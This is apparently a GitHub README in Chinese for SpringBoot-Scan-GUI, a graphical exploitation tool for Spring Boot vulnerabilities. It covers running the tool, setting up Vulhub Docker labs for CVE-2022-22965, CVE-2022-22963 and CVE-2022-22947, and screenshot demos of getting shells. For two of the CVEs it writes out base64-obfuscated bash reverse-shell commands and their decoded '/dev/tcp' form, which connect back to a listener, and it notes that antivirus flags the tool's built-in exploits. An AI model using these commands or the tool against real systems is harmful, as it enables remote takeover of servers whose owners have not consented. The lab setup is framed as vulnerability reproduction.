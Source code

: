 ![SpringBoot-Scan-GUI](https://socialify.git.ci/13exp/SpringBoot-Scan-GUI/image?font=Bitter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Diagonal%20Stripes&stargazers=1&theme=Dark)

**SpringBoot Scan GUI | Spring Boot漏洞利用工具说明 - 🔰雨苁ℒ🔰 https://www.ddosi.org/springboot-scan-gui/

**开源工具 [SpringBoot-Scan]  https://github.com/AabyssZG/SpringBoot-Scan 的GUI图形化版本，对你有用的话麻烦点个Star哈哈~

**[SpringBoot-Scan] https://github.com/mwb0350/SpringBoot-Scan

**注意：本工具内置相关漏洞的Exp，杀软报毒属于正常现象！**

## Windows使用

```
python3 SpringBoot-Scan-GUI.py
```

也可以直接下载执行release打包好的exe程序

## Linux使用

```
python3 SpringBoot-Scan-GUI-Linux.py
```

或者使用 `wine` 来执行：

```
sudo wine SpringBoot-Scan-GUI.exe
```

## VulHub 漏洞测试环境搭建

```
git clone https://github.com/vulhub/vulhub.git
```

### 安装Docker环境

```
sudo apt-get install docker.io
sudo apt install docker-compose
```

### 搭建CVE-2022-22965

```
cd /vulhub/CVE-2022-22965
sudo docker-compose up -d
```

### 搭建CVE-2022-22963

```
cd /vulhub/CVE-2022-22963
sudo docker-compose up -d
```

### 搭建CVE-2022-22947

```
cd /vulhub/CVE-2022-22947
sudo docker-compose up -d
```

如果报错，自行修改 `.yml` 文件中映射的端口号

## 漏洞复现演示

### 一、CVE-2022-22965

#### VulHub 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)

**13exp-shell**

![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)

**13exp-shell**
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)

### 二、CVE-2022-22963

#### VulHub 环境复现

准备反弹shell：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8888 0>&1`

Kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)

#### 春秋云境 环境复现

注:云境反弹shell需使用公网服务器

服务器监听
![image](https://user-images.githubusercontent.com/73600604/218291287-9b248ffa-f4fe-4195-b665-ba333aa5721c.png)

![image](https://user-images.githubusercontent.com/73600604/218291509-dca8ef79-3453-4add-bba1-cfd513a4fbc3.png)
![image](https://user-images.githubusercontent.com/73600604/218291366-7eb7e58b-54ca-4d72-bd0e-f6bc6fa4367f.png)


### 三、CVE-2022-22947

#### VulHub 环境复现

同样准备反弹shell

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8889 0>&1`

kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
![image](https://user-images.githubusercontent.com/73600604/218257247-eb1ec709-dcaa-4855-8890-c263c15bc890.png)

## 项目Star统计

![star](https://starchart.cc/13exp/SpringBoot-Scan-GUI.svg)

